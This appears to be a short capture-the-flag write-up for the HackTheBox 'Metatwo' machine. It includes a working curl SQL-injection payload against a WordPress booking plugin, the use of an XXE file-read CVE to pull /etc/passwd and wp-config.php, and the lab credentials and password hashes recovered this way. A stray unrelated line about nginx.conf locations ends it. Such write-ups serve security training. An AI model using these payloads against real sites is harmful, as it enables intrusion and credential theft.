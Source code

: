 https://0xdedinfosec.vercel.app/blog/hackthebox-metatwo-writeup

# Metatwo


# 1. Malicious plugin allows sqli

Wordpress vuln: https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357
-> plugin allows SQLi:
```
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=6a1e5a8e90&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```


Enumerated user:

```
User: manager
Password hash: $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
Password plain: partylikearockstar
ID:  2
```

```
User:  admin
Password:  $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
ID:  1
```

- User `manager` can login into the wordpress backend

# 2. Vulnerable wp version allows LFI via authenticated XXE
- `cve-2021-29447`
- leaked `/etc/passswd` reveals user `jnelson`
- leaked nginx default site config `/etc/nginx/sites-enabled/default`
    - application root is `/var/www/metapress.htb/blog`
    - found wp config `/var/www/metapress.htb/blog/wp-config.php`
        - this file leaks ftp credentials: `metapress.htb/9NYS_ii@FyL_p5M2NvJ`
        - this file leaks db credentials: `blog/635Aq@TdqrCwXFUZ`
  
# 3. Enumerate ftp
- found file `send_email.php` which contains a password for user `jnelson/Cb4_JmWM8zUZWMu@Ys`
- allows login vis ssh to obtain user flag

nginx.conf and placed in the directory /usr/local/nginx/conf , /etc/nginx , or /usr/local/etc/nginx